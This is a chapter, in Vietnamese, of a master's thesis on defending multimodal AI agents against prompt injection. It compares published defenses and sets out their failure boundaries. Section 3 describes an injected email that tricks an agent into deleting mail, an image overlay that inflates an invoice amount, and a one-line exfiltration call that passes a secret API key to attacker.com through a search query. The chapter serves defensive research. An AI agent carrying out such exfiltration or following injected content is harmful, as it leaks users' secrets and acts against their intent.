

# Chương 6: So Sánh Thực Nghiệm, Đánh Đổi Hiệu Năng & Ranh Giới Thất Bại

> **Thông Tin Tài Liệu / Document Metadata:**
> - **Tác giả / Học viên:** Võ Phạm Tuấn Dũng (MSHV: 2570015) — `@tuandung222`
> - **Cán bộ Hướng dẫn:** TS. Lê Xuân Bách
> - **Chuyên ngành:** Thạc sĩ Khoa học Dữ liệu & Trí tuệ Nhân tạo Ứng dụng (CDNC AI - Khóa 261)
> - **Đơn vị:** Khoa Khoa học & Kỹ thuật Máy tính, Trường ĐH Bách Khoa, ĐHQG-HCM (HCMUT)
> - **Đề tài:** TrustSight (*An Empirical Study of Anchored Visual Perception for Prompt-Injection-Resistant Multimodal Agents*)
> - **Kho Lưu Trữ:** `tuandung222/software-security-agent-defenses`
> - **Ngày giờ biên soạn / Cập nhật (Timestamp):** 2026-10-06 01:45:00 (GMT+7)

---

## 1. Bức Tranh Tổng Thể: Ma Trận So Sánh Các Giải Pháp Phòng Vệ

Để có một cái nhìn khách quan và toàn diện về các chiến lược bảo vệ tác tử AI trước tấn công Prompt Injection và Visual Prompt Injection (VPI), bảng dưới đây tổng hợp các đặc tính kỹ thuật cốt lõi giữa các trường phái:

| Phương Pháp / Hệ Thống | Tầng Can Thiệp Chính | Cơ Chế Bảo Vệ | Executed ASR (Thực Nghiệm) | Bảo Toàn Utility Sạch | Chi Phí Trễ (Latency) | Cam Kết An Ninh |
|:---|:---|:---|:---:|:---:|:---:|:---:|
| **Mô Hình Gốc (Vanilla GPT-4o / Claude 3.5)** | Không phòng vệ | Phụ thuộc vào System Prompt | $65\% - 88\%$ | $100\%$ (Gốc) | $1.0\times$ (Cơ sở) | Xác suất (Không có cam kết) |
| **Model-Based (Argus / Steering / DPO)** | Trọng số & Trạng thái ẩn | Activation Steering / Probe tầng sớm | $5\% - 20\%$ | $85\% - 92\%$ (Bị suy thoái) | $1.05\times - 1.2\times$ | Xác suất (Dễ vỡ trước OOD) |
| **CaMeL / CaMeL-CUA (Oxford 2025/2026)** | Kiến trúc 2 Tầng | Quarantined VLM + Trusted Orchestrator | $< 1\%$ | $90\% - 95\%$ | $2.0\times - 2.5\times$ | Kiến trúc (Capability Gate) |
| **Conseca (Google 2025)** | Tầng Thực Thi | Dynamic Python Code Synthesis & Sandbox | $< 2\%$ | $88\% - 94\%$ | $1.8\times - 2.2\times$ | Logic (Sandbox State Diff) |
| **Progent (2025)** | Tầng API Gateway | Policy DSL & Stateful Finite Automata | $< 1\%$ | $95\% - 98\%$ | $1.02\times - 1.05\times$ | Xác định (Deterministic DFA) |
| **FIDES / LLMbda (IEEE S&P 2025)** | Trình Thực Thi Runtime | Dynamic Taint Tracking & Lattice IFC | $< 1\%$ | $86\% - 92\%$ | $1.15\times - 1.3\times$ | Hình thức (Non-Interference) |
| **Task Shield (ACL 2025)** | Luồng Công Việc | Task Decomposition (Planner vs Executor) | $2\% - 5\%$ | $91\% - 96\%$ | $1.4\times - 1.7\times$ | Cách ly Ngữ cảnh (DAG Context) |
| **TrustSight (Đề Tài Luận Văn)** | Hybrid 2 Tầng Ngoại Vi | Semantic Contract + Anchor Grounding + TCB | **0.0%** (Mục tiêu) | **> 95%** (Mục tiêu) | $1.05\times - 1.15\times$ | Kết hợp (Anchor + HMAC Token) |

---

## 2. Phân Tích Đánh Đổi Kỹ Nghệ: Tam Giác An Ninh, Hiệu Năng & Chi Phí

Trong kỹ nghệ phần mềm an toàn, không có giải pháp nào là "miễn phí". Việc áp dụng các cơ chế phòng vệ phần mềm luôn đòi hỏi sự cân nhắc giữa ba đỉnh của tam giác kỹ nghệ:

### 2.1. Đánh Đổi Về Thời Gian Trễ & Chi Phí Vận Hành (Latency & Financial Cost)
- **Kiến trúc hai mô hình (CaMeL, Task Shield):** Đòi hỏi gọi 2 lần mô hình cho mỗi bước tương tác (1 lần trích xuất nhận thức, 1 lần lập kế hoạch/hòa giải). Điều này làm tăng gấp đôi chi phí API token và đẩy độ trễ từ $1.5\text{s}$ lên $3.5\text{s} - 5.0\text{s}$ cho mỗi thao tác click chuột.
- **Kiến trúc chốt chặn cục bộ xác định (Progent, TrustSight TCB):** Bằng cách đẩy việc kiểm tra an toàn về một bộ điều hòa TCB viết bằng mã xác định chạy cục bộ, độ trễ kiểm tra chỉ tốn dưới $5\text{ms} - 20\text{ms}$, bảo tồn gần như nguyên vẹn trải nghiệm thời gian thực của tác tử.

### 2.2. Đánh Đổi Về Tỷ Lệ Từ Chối Nhầm (False Rejection Rate - FRR)
- Khi thiết lập các luật kiểm tra quá cứng nhắc (Over-defensive Policies), tác tử thường xuyên từ chối thực thi các hành động hợp lệ nhưng có cấu trúc bất thường.
- Ví dụ: Trên các trang thương mại điện tử, nút bấm thanh toán có thể đổi tên từ "Place Order" thành "Complete Purchase Now" hoặc nằm trong một `<iframe>` lạ. Nếu TCB chỉ cho phép nhãn cố định, tác tử sẽ bị kẹt và không hoàn thành được mục tiêu của người dùng.

---

## 3. Ranh Giới Thất Bại: Những Nơi Phòng Vệ Phần Mềm Vẫn Gặp Thách Thức

Dù vượt trội hoàn toàn so với việc chỉ dựa vào tinh chỉnh mô hình, các giải pháp an ninh phần mềm vẫn tồn tại những ranh giới thất bại (Failure Boundaries) mà các nhà nghiên cứu cần thẳng thắn thừa nhận:

### 3.1. Ranh Giới 1: Sự Nhập Nhằng Ngữ Nghĩa Trong Ý Định Người Dùng (Semantic Ambiguity)
Khi người dùng đưa ra một mệnh lệnh có phạm vi quá rộng hoặc mơ hồ:
> *"Hãy dọn dẹp hòm thư và xóa tất cả các email rác"*

Bộ biên dịch chính sách (Policy Compiler) không thể xác định ranh giới toán học chính xác giữa "email rác" và "email quan trọng". Kẻ tấn công có thể chèn một chỉ thị giả mạo thông báo của ngân hàng dưới dạng email khuyến mãi để lừa tác tử kích hoạt lệnh xóa.  
$\to$ **Khắc phục:** Bắt buộc áp dụng cơ chế *Xác nhận của Con người (Human-in-the-Loop Confirmation)* đối với các hành động xóa hàng loạt hoặc các tệp tin có giá trị cao.

### 3.2. Ranh Giới 2: Đầu Độc Dữ Liệu Cấu Trúc Hợp Lệ (Semantic Data Poisoning)
Ngay cả khi mô hình bị cách ly không thể sinh mã lệnh gọi tool độc hại, nó vẫn có thể bị đánh lừa để trích xuất sai lệch các trường dữ liệu hợp lệ:
- Hóa đơn gốc ghi: `$100.00`
- Kẻ tấn công chèn hình ảnh đè lên số 0 biến thành: `$1000.00`
- Bộ trích xuất trả về JSON đúng cấu trúc: `{"amount": 1000.00}`.
- TCB kiểm tra Schema thấy hoàn toàn hợp lệ và cho phép thanh toán.  
$\to$ **Khắc phục:** Phải có cơ chế đối soát chéo độc lập (như **C3: Anchor & Boundary Matching** trong TrustSight), so sánh dữ liệu trích xuất với các nguồn dữ liệu tin cậy đã biết (Ground Truth Ledger).

### 3.3. Ranh Giới 3: Kênh Rò Rỉ Phụ (Side-Channel Exfiltration)
Nếu tác tử bị chặn hoàn toàn các API gửi email hay upload file, kẻ tấn công vẫn có thể tìm cách rò rỉ dữ liệu thông qua các công cụ tìm kiếm hợp lệ:
- Yêu cầu tác tử: `search_web(query="https://attacker.com/log?leak=" + secret_api_key)`
- Trình duyệt sẽ gửi một truy vấn DNS hoặc HTTP GET request tới máy chủ của hacker mang theo dữ liệu nhạy cảm.  
$\to$ **Khắc phục:** Áp dụng kiểm soát luồng thông tin (IFC) tại tầng mạng, cấm truyền các biến nhạy cảm vào chuỗi URL tham số tìm kiếm.

---

## 4. Tổng Kết & Định Hướng Phát Triển Cho Nghiên Cứu TrustSight

Hành trình khảo cứu toàn bộ các giải pháp an ninh phần mềm khẳng định ba bài học then chốt:
1. **Mô hình không bao giờ đáng tin cậy:** Mọi hành động tương tác với thế giới bên ngoài bắt buộc phải đi qua một bộ hòa giải TCB độc lập có tính chất Reference Monitor (Anderson, 1972).
2. **Quyền hạn phải có tính phân rã:** Tước bỏ hoàn toàn Ambient Authority; mọi lời gọi tool phải được ủy quyền thông qua Single-use Nonce Tokens (Hardy, 1988).
3. **Thực nghiệm phải trung thực và có đối chứng:** Cần đo lường khách quan cả ba chỉ số: Tỷ lệ Đề xuất Độc hại của VLM (Harmful Proposal Rate), Tỷ lệ Tấn công Thực thi Qua Chốt chặn (Executed ASR), và Tỷ lệ Hoàn thành Tác vụ Sạch (Clean Utility).

Đó chính là kim chỉ nam cho thiết kế thực nghiệm đa nhân tố ($2 \times 2$ Factorial Design) trên môi trường Playwright thực tế của Luận văn **TrustSight**.

---

[⬅️ Quay lại Chương 5: Nền Tảng An Ninh Cổ Điển](05_nen_tang_an_ninh_he_thong_co_dien.md) | [🏠 Quay lại Master README](../README.md)
